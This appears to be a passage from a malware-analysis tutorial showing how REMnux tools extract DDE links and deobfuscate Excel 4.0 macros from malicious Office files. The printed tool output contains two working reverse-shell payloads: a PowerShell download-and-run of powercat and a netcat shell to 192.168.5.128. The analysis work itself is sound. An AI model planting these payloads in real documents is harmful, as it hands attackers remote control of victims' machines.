## DDE attack
Use **msodde** to detect and extract DDE/DDEAUTO links from MS Office documents, RTF and CSV

    remnux@remnux:~/Desktop$ msodde DDE-attack.docx 
    msodde 0.55 - http://decalage.info/python/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Opening file: DDE-attack.docx
    DDE Links:
     DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.5.128/powercat.ps1');powercat -c 192.168.5.128 -p 1111 -e cmd

## Excel 4.0 macros
**XLMMacroDeobfuscator** can be used to decode obfuscated XLM macros (also known as Excel 4.0 macros)

    remnux@remnux:~/Desktop$ xlmdeobfuscator -f excel4macro.xls 
    pywin32 is not installed (only is required if you want to use MS Excel)
    
              _        _______
    |\     /|( \      (       )
    ( \   / )| (      | () () |
     \ (_) / | |      | || || |
      ) _ (  | |      | |(_)| |
     / ( ) \ | |      | |   | |
    ( /   \ )| (____/\| )   ( |
    |/     \|(_______/|/     \|
       ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
      (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
      | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
      | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
      | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
      | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
      | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
      (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/
    
        
    XLMMacroDeobfuscator(v 0.1.4) - https://github.com/DissectMalware/XLMMacroDeobfuscator
    
    File: /home/remnux/Desktop/excel4macro.xls
    
    Unencrypted xls file
    
    [Loading Cells]
    [Starting Deobfuscation]
    There is no entry point, please specify a cell address to start
    Example: Sheet1!A1
    Macro1!A1
    CELL:A1        , PartialEvaluation   , EXEC("nc -nv 192.168.5.128 1111 -e cmd.exe")
    CELL:A2        , PartialEvaluation   , RETURN()
    [END of Deobfuscation]
    time elapsed: 5.669408082962036



